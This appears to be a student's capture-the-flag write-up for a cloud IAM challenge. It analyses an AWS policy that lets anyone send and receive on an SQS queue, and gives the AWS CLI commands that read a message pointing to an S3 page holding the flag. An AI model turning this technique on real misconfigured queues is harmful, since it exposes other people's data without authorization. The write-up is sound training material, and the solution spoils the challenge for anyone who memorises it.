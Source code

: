 # copy the contents of sample.md to start
# Challenge number : 2

## Challenge Statement:
Google Analytics:
We created our own analytics system specifically for this challenge. We think it's so good that we even used it on this page. What could go wrong?

Join our queue and get the secret flag. 

## IAM Policy
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}

### write a short analysis about the IAM policy here
From the above policy, We can see that any body can send and receive sqs message  

* What do I have access to?
	Any user can use the sqs queue
* What don't I have access to?
	N/A
* What do I find interesting?
SQS queue is open to public for sending and receiving message


## Solution

We can send and receive a message using sqs queue :

aws sqs send-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --message-body "Lab 2"

aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2

The message contains the following:

{
    "Messages": [
        {
            "MessageId": "a69f4e6d-7ccd-4a5e-8cbc-b8ef26a92f8a",
            "ReceiptHandle": "AQEBsL3k+idLUm0ep9MTbeETVClJnUg09e96hZRD4adx7sNK3e1lVMY/CrtdBwhKiae+EOSls78lj9CcuqdgZYuullWn1i0R6DICZAgc6rB+3IIuVdVty1/SCdVi5Z2F+XDCZbZjpmAPcCMx5OfjNIPZv6TZg9
U8CxFdY/IDiZSz6mDhQlG5RnCjlzK1e4wFNuxU5tpUV9uJVnU8zJTwB2SBZNnVTtU2NPWM1tJvtxQfg/SxLzlrBTN44sXpNDkFnkM+DYBmX3cr+Sb6OIKKr7ViYuFXLXZjdiM7sldwb7EnxYBRtuIVcITOb9/5kmacVr3yrebmgTaaGnwVjudA6qRpak
FGI/hnOKSsfagptzcLbuYMv6tfwSWs0MurC/Vc2W36Og3czSnB/X9jzOat0ELwz4uV+MI124WRoApKF++ZkMw=",
            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd",
            "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\", \"User-Agent\": \"Lynx/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714\",
 \"IsAdmin\": true}"
        }
    ]
}

Then if we curl https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html
then we will get the content of the html file which is the flag in this challenege


## Reflection
* What was your approach?
	Sending and receiving the message
* What was the biggest challenge?
   Need to under the SQS service in AWS
* How did you overcome the challenges?
	I have some SQS knowledge from previous semester
* What led to the break through?
	The message contains an url which may contain the flag
* On the blue side, how can the learning be used to properly defend the important assets? 
	Learning should focus on identifying the assets, security controls and best practices etc.
